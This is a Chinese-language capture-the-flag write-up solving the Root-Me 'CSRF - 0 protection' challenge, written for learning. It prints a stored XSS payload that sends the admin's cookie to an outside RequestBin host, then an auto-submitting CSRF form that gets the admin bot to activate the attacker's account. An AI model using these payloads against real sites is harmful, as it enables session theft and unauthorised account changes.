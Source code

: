 ## [[Root-Me](https://www.root-me.org/)] [[Web-Client](https://www.root-me.org/en/Challenges/Web-Client/)] [[CSRF - 0 protection](https://www.root-me.org/en/Challenges/Web-Client/CSRF-0-protection)] [[解题报告](https://exp-blog.com/safe/ctf/rootme/web-client/csrf-0protection/)]

------

已经很直白提示是 CSRF 题型。

点击 Register 随意注册一个账号，如 `exp`，密码 `123456` 。

然后点击 Login 登录，登录后点击 Profile 切到个人档案，发现有 4 个选项卡，其中：

- Contact ： 可以发送一条消息给 admin 留言， 有个 robot-admin 会定时轮询查看
- Profile ： 激活当前账号，但是非 admin 无法操作
- Private ： 查看账号激活后信息，这就是最终目标
- Logout ： 登出，没用

很明显 Contact 就是注入点，且通过抓取 HTTP 请求发现， Email 虽然会校验格式，但是可以不填，而且也不会作为 HTTP 请求的参数发送出去，因此注入点就是 Comment 输入框。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B10%5D%20%5B35P%5D%20CSRF%20-%200%20protection/imgs/01.png)

至此，解此题有两种思路：

- ① 使用【[Web-Client : XSS - Stored 1](http://exp-blog.com/2019/01/13/pid-2922/)】的思路把 admin 的 Cookie 发到我们的服务器，窃取其 Cookie 后再激活
- ② 直接构造 CSRF 伪装 admin 的身份进行激活

首先试试第 ① 种思路，在 Contact 选项卡的 Comment 输入框构造一个 payloads 提交：

`<srcipt>document.write("<img src='${HOST}?tk='"+document.cookie+" />");</srcipt>`

（其中 `${HOST}` 是使用 [RequestBin](https://requestbin.fullcontact.com/) 生成的临时 HTTP 服务器，详见【[Web-Client : XSS - Stored 1](http://exp-blog.com/2019/01/13/pid-2922/)】，不再赘述）

提交成功后会提示 `Your message has been posted. The administrator will contact you later.` 。

等了一会， [RequestBin](https://requestbin.fullcontact.com/) 服务器收到了消息，说明我们注入 XSS 成功，但是消息中并没有 admin 的 Cookie ，很可能是 Cookie 启用了 HttpOnly 的缘故，因此第 ① 种思路不可行，改用第 ② 种思路，即 CSRF。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B10%5D%20%5B35P%5D%20CSRF%20-%200%20protection/imgs/02.png)

要执行 CSRF ，即需要令 admin 在读取 Comment 的时候触发一个激活账号的 POST，因此需要先获得这个 POST 请求的格式，再构造我们期望的内容。

切到 Profile 选项卡，发现 Status 是不可用的，并且点击 submit 后提示 `You're not an admin!`，不过不影响我们捕获 POST 请求。

打开浏览器开发者工具，切到 Elements ，把 Status 的 `disabled` 属性删掉。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B10%5D%20%5B35P%5D%20CSRF%20-%200%20protection/imgs/03.png)

打开 Burp Suite -> Proxy -> HTTP history ，然后点击页面的 submit 按钮，即可捕获到激活账号的 POST 请求。

利用这个 POST 请求可以构造 payloads 如下，将其拷贝到 Contact 选项卡的 Comment 输入框提交即可：

```html
<form name="csrf" action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="post" enctype="multipart/form-data">
    <input type="hidden" name="username" value="exp">  <!-- 激活账号，根据实际修改  -->
    <input type="hidden" name="status" value="on">  <!-- 激活动作 -->
</form>
<script>document.csrf.submit()</script>
```

多刷新几次 Private 选项卡，等待 robot-admin 触发 payloads，最终得到 flag，完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B10%5D%20%5B35P%5D%20CSRF%20-%200%20protection/imgs/04.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
